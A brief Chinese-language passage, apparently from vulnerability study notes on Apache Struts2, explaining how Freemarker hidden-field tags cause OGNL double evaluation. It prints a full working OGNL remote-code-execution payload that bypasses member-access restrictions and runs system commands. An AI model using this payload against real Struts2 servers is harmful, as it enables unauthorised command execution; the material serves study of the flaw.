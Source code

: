 使用 Freemarker 模板引擎时，如果存在这样的代码：

```html
<@s.hidden name="redirectUri"value=redirectUri />
```

或者：

```html
<@s.hidden name="redirectUri"value="${redirectUri}"/>
```

那么此时，用户输入会先被 Freemarker 解析，随后被当作 OGNL 表达式解析，造成代码执行。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

注意最后必须添加换行符（`\x0a`）。

![图 11](11.png)

## s2-057

[参考](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)
